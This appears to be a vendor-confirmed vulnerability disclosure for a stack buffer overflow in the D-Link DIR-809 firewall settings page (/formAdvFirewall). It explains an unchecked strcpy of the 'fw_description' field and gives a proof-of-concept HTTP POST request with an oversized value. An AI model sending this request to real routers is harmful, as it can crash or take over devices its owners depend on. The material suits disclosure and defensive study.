

# D-Link DIR809 Vulnerability

The Vulnerability is in page `/formAdvFirewall` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_800462c4` ( page `/formAdvFirewall` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"fw_description_%d"` in the http post request which is completely under the attacker's control. 
2. The string `local_14` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack276`. 




## PoC

``` 
POST /formAdvFirewall.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3228
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Firewall.asp?t=1620560035954
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=s4vLUlBpKH
Connection: close

settingsChanged=1&curTime=1620560128072&HNAP_AUTH=33A4575639545280B0A1F1C2E47D6A72+1620560128&submit-url=%2FAdvanced%2FFirewall.asp&anti_spoof=false&spi_enabled=false&dmz_enabled=0&alg_rtsp=true&fw_description_0=123123123213123123*0x200&sinf_0=1&s_s_ip_0=192.168.0.2&s_e_ip_0=192.168.0.4&pro_0=2&act_0=1&dinf_0=2&d_s_ip_0=192.168.0.5&d_e_ip_0=192.168.0.10&d_s_port_0=10000&d_e_port_0=10001&fw_description_1=&sinf_1=0&s_s_ip_1=&s_e_ip_1=&pro_1=2&act_1=1&dinf_1=0&d_s_ip_1=&d_e_ip_1=&d_s_port_1=0&d_e_port_1=&fw_description_2=&sinf_2=0&s_s_ip_2=&s_e_ip_2=&pro_2=2&act_2=1&dinf_2=0&d_s_ip_2=&d_e_ip_2=&d_s_port_2=0&d_e_port_2=&fw_description_3=&sinf_3=0&s_s_ip_3=&s_e_ip_3=&pro_3=2&act_3=1&dinf_3=0&d_s_ip_3=&d_e_ip_3=&d_s_port_3=0&d_e_port_3=&fw_description_4=&sinf_4=0&s_s_ip_4=&s_e_ip_4=&pro_4=2&act_4=1&dinf_4=0&d_s_ip_4=&d_e_ip_4=&d_s_port_4=0&d_e_port_4=&fw_description_5=&sinf_5=0&s_s_ip_5=&s_e_ip_5=&pro_5=2&act_5=1&dinf_5=0&d_s_ip_5=&d_e_ip_5=&d_s_port_5=0&d_e_port_5=&fw_description_6=&sinf_6=0&s_s_ip_6=&s_e_ip_6=&pro_6=2&act_6=1&dinf_6=0&d_s_ip_6=&d_e_ip_6=&d_s_port_6=0&d_e_port_6=&fw_description_7=&sinf_7=0&s_s_ip_7=&s_e_ip_7=&pro_7=2&act_7=1&dinf_7=0&d_s_ip_7=&d_e_ip_7=&d_s_port_7=0&d_e_port_7=&fw_description_8=&sinf_8=0&s_s_ip_8=&s_e_ip_8=&pro_8=2&act_8=1&dinf_8=0&d_s_ip_8=&d_e_ip_8=&d_s_port_8=0&d_e_port_8=&fw_description_9=&sinf_9=0&s_s_ip_9=&s_e_ip_9=&pro_9=2&act_9=1&dinf_9=0&d_s_ip_9=&d_e_ip_9=&d_s_port_9=0&d_e_port_9=&fw_description_10=&sinf_10=0&s_s_ip_10=&s_e_ip_10=&pro_10=2&act_10=1&dinf_10=0&d_s_ip_10=&d_e_ip_10=&d_s_port_10=0&d_e_port_10=&fw_description_11=&sinf_11=0&s_s_ip_11=&s_e_ip_11=&pro_11=2&act_11=1&dinf_11=0&d_s_ip_11=&d_e_ip_11=&d_s_port_11=0&d_e_port_11=&fw_description_12=&sinf_12=0&s_s_ip_12=&s_e_ip_12=&pro_12=2&act_12=1&dinf_12=0&d_s_ip_12=&d_e_ip_12=&d_s_port_12=0&d_e_port_12=&fw_description_13=&sinf_13=0&s_s_ip_13=&s_e_ip_13=&pro_13=2&act_13=1&dinf_13=0&d_s_ip_13=&d_e_ip_13=&d_s_port_13=0&d_e_port_13=&fw_description_14=&sinf_14=0&s_s_ip_14=&s_e_ip_14=&pro_14=2&act_14=1&dinf_14=0&d_s_ip_14=&d_e_ip_14=&d_s_port_14=0&d_e_port_14=&fw_description_15=&sinf_15=0&s_s_ip_15=&s_e_ip_15=&pro_15=2&act_15=1&dinf_15=0&d_s_ip_15=&d_e_ip_15=&d_s_port_15=0&d_e_port_15=&fw_description_16=&sinf_16=0&s_s_ip_16=&s_e_ip_16=&pro_16=2&act_16=1&dinf_16=0&d_s_ip_16=&d_e_ip_16=&d_s_port_16=0&d_e_port_16=&fw_description_17=&sinf_17=0&s_s_ip_17=&s_e_ip_17=&pro_17=2&act_17=1&dinf_17=0&d_s_ip_17=&d_e_ip_17=&d_s_port_17=0&d_e_port_17=&fw_description_18=&sinf_18=0&s_s_ip_18=&s_e_ip_18=&pro_18=2&act_18=1&dinf_18=0&d_s_ip_18=&d_e_ip_18=&d_s_port_18=0&d_e_port_18=&fw_description_19=&sinf_19=0&s_s_ip_19=&s_e_ip_19=&pro_19=2&act_19=1&dinf_19=0&d_s_ip_19=&d_e_ip_19=&d_s_port_19=0&d_e_port_19=&fw_description_20=&sinf_20=0&s_s_ip_20=&s_e_ip_20=&pro_20=2&act_20=1&dinf_20=0&d_s_ip_20=&d_e_ip_20=&d_s_port_20=0&d_e_port_20=&fw_description_21=&sinf_21=0&s_s_ip_21=&s_e_ip_21=&pro_21=2&act_21=1&dinf_21=0&d_s_ip_21=&d_e_ip_21=&d_s_port_21=0&d_e_port_21=&fw_description_22=&sinf_22=0&s_s_ip_22=&s_e_ip_22=&pro_22=2&act_22=1&dinf_22=0&d_s_ip_22=&d_e_ip_22=&d_s_port_22=0&d_e_port_22=&fw_description_23=&sinf_23=0&s_s_ip_23=&s_e_ip_23=&pro_23=2&act_23=1&dinf_23=0&d_s_ip_23=&d_e_ip_23=&d_s_port_23=0&d_e_port_23=
```
